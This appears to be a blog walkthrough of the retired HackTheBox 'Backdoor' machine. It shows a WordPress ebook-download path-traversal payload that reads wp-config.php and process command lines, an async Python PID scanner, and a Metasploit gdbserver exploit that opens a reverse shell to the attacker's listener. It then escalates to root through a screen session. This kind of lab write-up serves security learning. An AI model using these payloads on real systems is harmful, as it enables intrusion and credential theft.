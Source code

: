 ```yaml
---
title: "HackTheBox: \"Backdoor\" Walkthrough"
date: 2022-04-24T19:56:04+02:00
tags: []
slug: "hackthebox-backdoor-walkthrough"
draft: true
---
```


# Introduction

The now retired *Backdoor* machine on HackTheBox is supposed to be an "easy" machine, so
it should be absolutely straight-forward. Let's see!

# Foothold

On this machine, I started with a directory scan, using the `fuzz-Bo0oM.txt` list, which
usually yields good results - at least on HackTheBox. We'll notice that directory
listing is enabled almost everywhere, so we can also explore manually.

In the end, we'll find a pretty standard WordPress installation with a
single plugin called "ebook-download" enabled - for which we will find a LFI vuln pretty quick:

```plain
.../filedownload.php?ebookdownloadurl=../../../wp-config.php
```

Neat - we can download the WordPress configuration, containing credentials for the database.
But it seems we can't do anything with the credentials for the database server.

Let's continue with a port scan:
```plain
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
```
Of course, `1337/tcp` stands out. But what kind of service is running there?
We can try a few simple things: Try to open it in a browser, try to SSH and as last resort,
try telnet. Sadly, none of that works.

Now, the next step took me a while: Using Linux, we can read `/proc/<pid>/cmdline`
to get information about a running process, so we might be able to find
the process which has opened port 1337. We only need to know the PID - which we don't.
So let's use the LFI we found earlier to scan a range of PIDs.

To be honest, this script could have been *a lot* easier - but somehow I got the idea
"I want to scan faster - I need multiple connections", so I ended up with this.
Maybe I'm able to use it again in the future :wink:

(*Disclaimer: I'm not an async Python expert, so forgive me (or maybe even tell me)
if there is a bad mistake.*)

```python
import asyncio
import aiohttp
from aiohttp import ClientSession, ClientConnectorError

# https://stackoverflow.com/a/61478547
async def gather_with_concurrency(n, *tasks):
    semaphore = asyncio.Semaphore(n)

    async def sem_task(task):
        async with semaphore:
            return await task
    return await asyncio.gather(*(sem_task(task) for task in tasks))

async def fetch_html(url: str, session: ClientSession, **kwargs) -> tuple:
    try:
        resp = await session.request(method="GET", url=url, **kwargs)
    except ClientConnectorError:
        return (url, 404, "")
    return (url, resp.status, await resp.text())

async def make_requests(urls: set, **kwargs) -> None:
    async with ClientSession() as session:
        tasks = []
        for url in urls:
            tasks.append(
                fetch_html(url=url, session=session, **kwargs)
            )
        results = await gather_with_concurrency(10, *tasks)

    for result in results:
        print(f'{str(result[2])}')

if __name__ == "__main__":
    urls = [(
            f"http://10.10.11.125/wp-content/plugins/ebook-download/"
            f"filedownload.php?ebookdownloadurl=/proc/{i}/cmdline"
        ) for i in range(10000)]

    asyncio.run(make_requests(urls=urls))
```

This scan yields (with some garbage removed in the beginning and end,
due to the way the download script works):
```plain
suuser-ccd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
bash-ccd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
gdbserver--once0.0.0.0:1337/bin/true
```

Finally! On port 1337 there seems to be a `gdbserver` running. That seems
pretty unusual but why not - let's see what we can do with this.

# User

After some research, we find the `exploit/multi/gdb/gdb_server_exec` payload
in metasploit. I used the following configuration, where everything should be
pretty self-explanatory, except for `set target 1`: 0 is x86, 1 is x86_64.
Using the wrong architecture, running the exploit will fail with the message:

> The payload architecture is incorrect: the payload is x86, but x64 was detected from gdb.

```plain
msf6 > use exploit/multi/gdb/gdb_server_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set LHOST 10.10.14.5
LHOST => 10.10.14.5
msf6 exploit(multi/gdb/gdb_server_exec) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/gdb/gdb_server_exec) > set RHOSTS 10.10.11.125
RHOSTS => 10.10.11.125
msf6 exploit(multi/gdb/gdb_server_exec) > set RPORT 1337
RPORT => 1337
msf6 exploit(multi/gdb/gdb_server_exec) > set target 1
target => 1
msf6 exploit(multi/gdb/gdb_server_exec) > set payload payload/linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.10.14.5:4444
[*] 10.10.11.125:1337 - Performing handshake with gdbserver...
[*] 10.10.11.125:1337 - Stepping program to find PC...
[*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.10.11.125:1337 - Executing the payload...
[*] Sending stage (38 bytes) to 10.10.11.125
[*] Command shell session 2 opened (10.10.14.5:4444 -> 10.10.11.125:54214 ) at 2022-04-24 15:15:56 -0400

id
uid=1000(user) gid=1000(user) groups=1000(user)

```

Done! :thumbsup:

# Root

For privilege escalation, I'm going to ask LinPEAS for an idea. Under the section
"Unix Sockets Listening" there is an unusual entry: `/run/screen/S-root/964.root`.

So there seems to be a screen session running. We cannot directly access this socket file:
```plain
drwx------  2 root root  60 Apr 24 18:13 S-root
```
But as this is an "easy" machine, there are no false trails - so it's highly likely
that we *must* do something with the `screen` command.

As I had literally no idea what do to, I Googled *"access root screen session as user"*
(or something similar - didn't write down the exact search term :wink:), which
lead to [this post](https://unix.stackexchange.com/a/163878). The interesting part being:
```plain
screen -x host_username/session_name
```
We know the username is `root` and the session name is also `root`, so let's try
```plain
screen -x root/root
```
... and we will find ourselves in a screen session with a root shell!

NB: Using a non-upgraded reverse shell, this command fails with the message:

> Must be connected to a terminal.

# Conclusion and Learnings

Although this is an "easy" machine, I struggled a bit after finding the LFI.
Enumerating the processes using `/proc` was something I didn't think off right away.
I spent way too much time on the Python script, but also learned a bit while writing it.
Also, I learned that just because a socket is not readable does not mean I can't do
anything with it. Finally, I learned about screen multi-user mode.

All in all:
I had some fun with this machine, despite the setup not looking very realistic
(except for the LFI).